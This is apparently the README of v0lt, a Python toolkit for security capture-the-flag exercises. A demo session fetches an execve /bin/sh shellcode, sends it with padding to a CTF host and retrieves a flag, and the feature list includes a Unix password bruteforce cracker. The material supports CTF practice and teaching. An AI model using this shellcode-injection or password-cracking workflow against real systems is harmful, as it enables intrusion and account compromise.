 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style.
A lot of exercises were solved using bash scripts but Python may be
more flexible, that's why.
Nothing to do with Gallopsled. It's a toy toolkit, with small but
specific utils only.

##Requirements and Installation
####Dependencies:
* Libmagic
* Python3
  * BeautifulSoup
  * Requests
  * filemagic
  * hexdump
  * passlib

####Installation:
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git
cd v0lt
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read())
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

...<SNIPPED>...
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
...<SNIPPED>...

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:
* Crypto
    * Base64
    * Ceasar shift
    * Hashing functions (SHA, MD5)
    * Bits manipulations (XOR, inverse XOR)
    * Usual conversions (bytes, strings, hex)
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing (Dictionnary, custom word)

* Shellcodes
    * Shellcode selection and download from Shell-storm repo
    * Shellcode formater
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support
    * Netcat
    * Telnet

And more
Examples are available ![here](./v0lt/examples.py)


# Changelog

Only includes major features and changes. Bugfixes and
minor changes are omitted.

## 1.3

- Lots of fixes again
- Hexeditor (Dump/Rewrite files)
- Unix password bruteforce cracker

## 1.2

- Lots of documentation/bugs/framework fixes
- Added bruteforce
- Added linux utils
- Began hexeditor
- Shellhack fixes
- Alert messages

## 1.0

- Lots of documentation fixes
- Lots of bugfixes
- Added shellhack (shellcodes stuff)
- Added crypto utils
- Added network utils
- Fixed project tree
